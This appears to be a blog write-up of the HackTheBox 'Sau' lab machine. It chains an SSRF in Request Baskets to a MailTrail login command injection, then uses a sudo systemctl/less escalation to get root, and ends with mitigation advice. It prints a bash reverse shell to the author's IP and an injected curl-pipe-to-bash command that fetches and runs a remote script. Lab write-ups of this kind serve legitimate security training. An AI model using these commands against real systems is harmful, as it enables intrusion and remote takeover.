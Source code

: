 ```yaml
---
title: "HackTheBox - Sau"
author: Nasrallah
description: ""
date: 2023-01-06 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, sudo, ssrf, injection, command injection]
img_path: /assets/img/hackthebox/machines/sau
image:
    path: sau.png
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---

## **Description:**

[Sau](https://app.hackthebox.com/machines/sau) from [HackTheBox](https://www.hackthebox.com), we find a website vulnerable to `ssrf` that we exploit to access a web app that's sitting behind a firewall, the web app is vulnerable to command injection giving us our foothold. For root we find a misconfigured sudo entry allowing us to drop a root shell.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.11.224                                              
Host is up (0.19s latency).          
Not shown: 997 closed tcp ports (reset)                                                                                                                       
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)                                                                       
| ssh-hostkey:                                                                 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)                           
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)                          
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)                        
80/tcp    filtered http                                                        
55555/tcp open     unknown                                                     
| fingerprint-strings:                                                                                                                                        
|   FourOhFourRequest:                                                         
|     HTTP/1.0 400 Bad Request                                                 
|     Content-Type: text/plain; charset=utf-8                             
|     X-Content-Type-Options: nosniff                                          
|     Date: Thu, 20 Jul 2023 10:03:32 GMT                                 
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPReques
```

We found two open ports: 22 and 55555. port 80 is filtered.

### Web

Let's navigate to the web page on port 55555.

![a](1.png)

This is `Request Baskets` version 1.2.1, it allows us to inspect HTTP requests.

Searching on google for this version reveals it's vulnerable to a [Server Side Request Forgery](https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3). That's why there is a filtered port.

Let's first create a basket.

![a](2.png)

Now we open it.

![a](3.png)

The website gave us a link to make requests to, and it will show us on this page the HTTP requests made.

Let's go to `http://10.10.11.224:55555/4gngypw`

>The random string will be different on each basket created.

![a](4.png)

We can see the headers of our request.

The `SSRF` vulnerability can be exploited using the `Forward URL` option in the settings:

![a](5.png)

Since port 80 is filtered let's set the `Forward URL` to `http://127.0.0.1/` and check the `Proxy Response` option.

![a](6.png)

Now if let's request the url `http://10.10.11.224:55555/4gngypw`

![a](7.png)

We've successfully got the page of the website on port 80.

It shows that it's running `MailTrail (v0.53)`.

After some research we find that this version is vulnerable to an [OS Command Injection](https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/) during the login process

The proof of concept provided for this vulnerability is the following:

```bash
curl 'http://hostname:8338/login' --data 'username=;`id > /tmp/bbq`'
```

## **Foothold**

We'll edit the command executed to a reverse shell.

First I'll host a bash script holding the following reverse shell:

```bash
bash -i >& /dev/tcp/10.10.17.90/9001 0>&1
```

The command I'll be executing will request this script and pips it's content to bash to get it executed and me receiving a shell.

```bash
curl 'http://10.10.11.224:55555/wswltbh/login' --data 'username=;`curl 10.10.17.90/shell.sh|bash`'
```

![a](8.png)

We got a shell as `puma`

## **Privilege Escalation**

Let's check our privileges:

```shell
puma@sau:~$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

We can check the status of the trail service.

![a](9.png)

One thing to notice here is the output is not printed fully and we're in a `less` interface, that's because our tty is not setup properly.

That was lucky for us, but if the sudo command printed the output normally without showing less, we can make our terminal smaller or change the stty setting with `stty rows 20 columns 50`.

It should also be mentioned that we need a full tty shell for this to run properly, so upgrade your shell if haven't already.

If go to GTFOBins we see that if we have a shell over `less` we can run `!/bin/bash` and get a root shell.

![a](10.png)

## **Prevention and Mitigation**

### SSRF

Update `Requests Basket` to the latest version.

## Command Injection

`Mail Trail` should be updated to the latest version.

## Systemctl

systemd before 247 does not adequately block local privilege escalation for some Sudo configurations, e.g., plausible sudoers files in which the "systemctl status" command may be executed. Specifically, systemd does not set LESSSECURE to 1, and thus other programs may be launched from the less program. This presents a substantial security risk when running systemctl from Sudo, because less executes as root when the terminal size is too small to show the complete systemctl output.

Set `LESSSECURE` environment variable to `1`.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

## References

<https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3>

<https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/>

<https://bugzilla.redhat.com/show_bug.cgi?id=2175611>
